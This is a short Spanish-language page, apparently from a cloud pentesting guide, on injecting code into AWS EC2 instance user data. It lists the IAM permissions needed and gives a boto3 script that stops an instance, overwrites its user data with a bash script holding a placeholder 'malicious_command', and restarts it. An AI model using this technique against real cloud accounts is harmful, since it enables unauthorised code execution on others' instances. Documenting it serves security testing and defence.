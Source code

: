# Inyección de código en user data

#### Permisos necesarios

- ec2:StopInstances
- ec2:ModifyInstanceAttribute
- ec2:StartInstances

    import boto3
    
    # Crear un cliente de EC2
    ec2_client = boto3.client('ec2')
    
    # Definir el ID de la instancia EC2
    instance_id = 'i-1234567890abcdef0'
    
    # Detener la instancia EC2
    ec2_client.stop_instances(InstanceIds=[instance_id])
    
    # Modificar los datos de usuario de la instancia EC2 para ejecutar comandos maliciosos
    user_data_script = '#!/bin/bash\n\nmalicious_command\n'
    ec2_client.modify_instance_attribute(
        InstanceId=instance_id,
        UserData={'Value': user_data_script}
    )
    
    # Iniciar la instancia EC2
    ec2_client.start_instances(InstanceIds=[instance_id])
